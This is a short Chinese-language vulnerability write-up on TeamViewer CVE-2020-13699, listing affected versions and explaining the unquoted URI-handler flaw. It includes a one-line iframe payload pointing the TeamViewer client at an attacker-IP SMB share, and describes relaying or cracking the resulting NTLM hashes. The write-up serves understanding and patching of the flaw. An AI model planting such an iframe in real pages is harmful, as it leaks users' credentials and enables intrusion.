 # TeamViewer远程代码执行漏洞(CVE-2020-13699)

> 2020.8

## #漏洞描述

TeamViewer存在未引用的搜索路径或元素的安全缺陷，由于应用程序没有正确引用它的自定义URI处理程序，当安装有TeamViewer的易受攻击版本的系统访问恶意创建的网站时，可能会被利用，攻击者可以使用精心制作的URL

## #影响范围

- TeamViewer < 8.0.258861
- TeamViewer < 9.0.28860
- TeamViewer < 10.0.258873
- TeamViewer < 11.0.258870
- TeamViewer < 12.0.258869
- TeamViewer < 13.2.36220
- TeamViewer < 14.2.56676
- TeamViewer < 15.8.3

## #漏洞详情

TeamViewer存在未引用的搜索路径或元素的安全缺陷，由于应用程序没有正确引用它的自定义URI处理程序，当安装有TeamViewer的易受攻击版本的系统访问恶意创建的网站时，可能会被利用。
攻击者可以使用精心制作的URL

```html
（iframe src='teamviewer10: --play \\attacker-IP\share\fake.tvs'）
```

![img](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjx0ty8116j30pt06qq3i.jpg)

![img](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjx0uba8llj30pv07nmxi.jpg)

将恶意iframe嵌入网站中，从而启动TeamViewer Windows桌面客户端并强制其打开远程SMB共享。
Windows将在打开SMB共享时，执行NTLM身份验证，并且可以转发该请求（使用如响应程序之类的工具）以执行代码（或捕获该请求以进行哈希破解）